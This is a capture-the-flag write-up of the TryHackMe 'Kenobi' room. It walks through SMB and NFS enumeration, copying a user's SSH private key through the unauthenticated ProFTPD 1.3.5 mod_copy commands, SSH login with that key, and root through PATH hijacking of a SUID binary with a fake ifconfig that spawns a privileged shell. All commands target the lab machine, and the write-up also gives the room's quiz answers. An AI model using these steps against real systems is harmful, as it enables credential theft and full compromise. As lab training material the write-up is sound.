# Tryhackme - [Kenobi](https://tryhackme.com/room/kenobi) 
Written on 19/12/2021


## Nmap
I did a pretty thorough nmap scan on the top common ports
```
sudo nmap -vv -sT -T3 -O -sV -sC --top-ports 1024 -oN nmap.txt 10.10.234.224
```

Here are the results, we can see there are 7 open ports.



> Scan the machine with nmap, how many ports are open?

Answer: 7

I also ran the command that the room suggested:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.234.224
```

Here are those results:



We see there are 3 shares, IPC, print and anonymous

> Using the nmap command above, how many shares have been found?

Answer: 3


## Smbclient
I connected to the anonymous share, supplying no password when prompted(pressing enter)

```
smbclient //10.10.234.224/anonymous
```



Seems I can't print out log.txt



> Once you're connected, list the files on the share. What is the file can you see?

Answer: log.txt

I used smbget like the room instructed to download the file instead

```
smbget -R smb://10.10.234.224/anonymous
```



log.txt turned out to be pretty big, there was info about:

- The kenobi user's ssh key generation:



- The FTP server configuration, anonymous access is allowed:



> What port is FTP running on?

Answer: 21


## Enumerating NFS
I used the nmap command provided by the room to enumerate the NFS on port 111 
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.234.224 > nfsnmap.txt
```



> What mount can we see?

Answer: /var


## ProFtpd
I connected to the FTP server using the ftp command instead of netcat:

```
ftp 10.10.234.224
```



There's the version, this was also visible in our nmap scan

> What is the version?

Answer: 1.3.5

I used searchsploit to search for a vulnerability on this version:
```
searchsploit proftpd 1.3.5
```



> How many exploits are there for the ProFTPd running?

Answer: 4

As the room suggets, we can use the vulnerable mod_copy module commands **SITE CPFR** and **SITE CPTO** as an unauthenticated user to get the ftp server to copy files to our desired location

So we are going to use this to copy kenobi's ssh private key. I think there are multiple locations we could access this from, one is suggested by the room(the NFS anonymous mount point /var).

I tried to get it on webserver that was running on port 80 that I found with nmap, but I got a permission denied message

It should be noted that using the ftp client for these commands doesn't work, as you are actually authenticated when using it

So I used the suggested option of copying the id_rsa key to /var/tmp

```
nc 10.10.234.224
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/privatekey
```

Then I mounted the NFS on my local machine:

```
mkdir nfs
sudo mount 10.10.234.224:/var ./nfs
```

And used kenobi's private key to login via ssh:
```
cd nfs/tmp 
cp privatekey ../../ && cd ../../ && chmod 600 privatekey
ssh -i privatekey kenobi@10.10.234.224
```



And got the user flag:




## Privilege escalation
Now to try and get root. The room suggests using an SUID binary, so I searched for those with the command provided

```
find / -perm -u=s -type f 2>/dev/null
```



The one that looked weird was /usr/bin/menu as I had no idea what that might be

> What file looks particularly out of the ordinary?

Answer: /usr/bin/menu

Running menu:



> Run the binary, how many options appear?

Answer: 3

The commands seem pretty non-vulnerable, however, if we run strings on the binary:

```
strings /usr/bin/menu
```



We can see that:
1. The file is owned by root, with the SUID bit set, so it is running as root
2. It references the 3 commands, curl, uname and ifconfig
3. But it doesn't call them by their absolute path

If we look at kenobi's PATH variable:

```
echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
We see that it checks /home/kenobi/bin first

We can write our own, fake curl(or ifconfig or uname) executable in /home/kenobi/bin, and when we run menu(which runs with root privileges) it will execute our malicious binary instead.

I used vi to write a simple script that just spawned a bash shell, then used the menu binary:

```
The fake ifconfig:

#!/bin/sh

/bin/bash -p
```




Now we can get that root flag!




## Conclusion
The room was pretty easy and straight-forward, which is expected as it's supposed to be a walkthrough. Jumping from using one service to another in order to gain root on the machine was interesting.


